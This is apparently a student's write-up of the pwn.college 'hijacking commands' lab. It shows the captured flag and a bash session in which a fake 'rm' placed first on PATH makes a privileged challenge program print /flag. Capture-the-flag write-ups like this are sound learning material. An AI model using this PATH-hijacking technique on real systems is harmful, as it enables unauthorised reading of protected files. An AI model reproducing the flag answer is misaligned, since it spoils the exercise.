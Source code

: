 ## Challenge Name
hijacking commands

### Solve
**Flag:** `pwn.college{sJOAufeveHu6_-BLFH3tB02BkXF.QX3cjM1wSMzEzNzEzW}`

```bash
hacker@path~hijacking-commands:~$ cat > /home/hacker/bin/rm <<'EOF'
/bin/cat /flag
EOF
hacker@path~hijacking-commands:~$ chmod +x /home/hacker/bin/rm
hacker@path~hijacking-commands:~$ 
export PATH=/home/hacker/bin:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/bin/rm. Executing!
pwn.college{sJOAufeveHu6_-BLFH3tB02BkXF.QX3cjM1wSMzEzNzEzW}
```

### New Learnings
i learnt how to get the flag without the existence of a win

### References 
https://stackoverflow.com/questions/5265702/how-to-get-full-path-of-a-file
